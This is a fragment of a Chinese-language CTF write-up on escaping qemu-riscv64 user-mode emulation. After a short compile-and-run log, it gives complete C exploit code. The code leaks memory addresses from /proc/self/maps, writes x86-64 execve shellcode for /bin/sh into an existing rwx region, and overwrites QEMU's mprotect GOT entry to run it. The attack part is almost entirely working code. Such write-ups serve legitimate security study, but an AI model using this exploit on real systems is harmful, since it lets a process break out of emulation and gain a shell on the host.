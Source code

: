 ```c
}
```

```
➜ riscv64-linux-gnu-gcc -static test.c -o test
➜ qemu-riscv64 ./test
$ ls
core	libc-2.31.so  qemu-riscv64.id0	qemu-riscv64.id2  qemu-riscv64.til  testaarch  testmips
exp.py	qemu-riscv64  qemu-riscv64.id1	qemu-riscv64.nam  test		    test.c

```

mprotect制造rwx段不成功，但是发现内存中有rwx段，故无需libc，尝试shellcode成功：

> http://shell-storm.org/shellcode/files/shellcode-806.php

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <string.h>

long long * get_addr(char * pattern){
    char buf [0x1000] = {0};
    read(openat(0,"/./proc/self/maps",0),buf,0x1000);
    
    char * tmp = strtok(buf, "\n");
    while (tmp)
    {   
        if(strstr(tmp,pattern)){
            *(tmp + 12) = 0;
            long long * leak_addr;
            sscanf(tmp,"%p",&leak_addr);
            return leak_addr;
        }
        tmp = strtok(NULL, "\n");
    }
}

int main(){
    char shellcode[] =  
    "\x31\xc0\x48\xbb\xd1\x9d\x96\x91"
    "\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
    "\x54\x5f\x99\x52\x57\x54\x5e\xb0"
    "\x3b\x0f\x05"; 

    long long * rwx_base  = get_addr("rwx");
    long long * qemu_base = get_addr("qemu-riscv64");
    
    long long * shellcode_addr =  rwx_base  + 0x7ffe000/8;
    long long * mprotect_got   =  qemu_base + 0x07171C0/8;
    long long * ro_memory      =  qemu_base + 0x06b7000/8;
    long        ro_length      =  0x0061000;

    memcpy((char *)shellcode_addr,shellcode,strlen(shellcode));
    mprotect(ro_memory,ro_length,6);
    * mprotect_got = (long long)shellcode_addr;

    mprotect(ro_memory,ro_length,6);
}
```

